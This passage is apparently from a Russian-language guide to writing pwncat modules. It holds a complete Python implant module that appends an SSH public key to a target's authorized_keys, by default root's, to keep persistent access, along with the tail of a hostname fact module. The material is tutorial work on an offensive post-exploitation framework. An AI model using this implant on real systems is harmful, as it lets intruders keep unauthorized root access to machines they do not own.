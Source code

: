 ```python
                hostname = 'unknown'
        yield HostnameFact(self.__class__.__name__, hostname)
```

Примечание: в реальном коде используйте корректные `session.platform` методы; пример демонстрирует идею. Сохранённые факты будут видны в базе. fileciteturn1file11

### D) Implant example — добавить SSH public key (демонстрация `install()`)

```python
# pwncat/modules/linux/implant/add_ssh_key.py
from pwncat.modules.implant import ImplantModule
from pwncat.facts.implant import Implant
from pwncat.modules import Status

class SimpleKeyImplant(Implant):
    def __init__(self, source, path, uid):
        super().__init__(source=source, types=['implant.ssh_key'], uid=uid)
        self.path = path

    def title(self, session):
        return f"SSH key implant at {self.path} (uid={self.uid})"

    def remove(self, session):
        # Удаление (пример)
        try:
            session.platform.Path(self.path).unlink()
        except Exception:
            pass

class Module(ImplantModule):
    ARGUMENTS = {
        'pubkey': Argument(str, help='SSH public key content to install'),
        'user': Argument(str, default='root', help='user to install key for')
    }

    def install(self, session, pubkey: str, user: str):
        yield Status(f"Installing SSH key for {user}")
        home = f"/home/{user}" if user != 'root' else '/root'
        auth_path = f"{home}/.ssh/authorized_keys"
        # Create .ssh dir and append key
        try:
            session.platform.Path(f"{home}/.ssh").mkdir(parents=True, exist_ok=True)
            with session.platform.Path(auth_path).open('a') as fh:
                fh.write(pubkey.strip() + '\n')
        except Exception as e:
            raise Exception(f"Failed to install key: {e}")
        yield Status("Key written")
        # Вернуть Implant объект
        return SimpleKeyImplant(self.__class__.__name__, auth_path, uid=0)
```
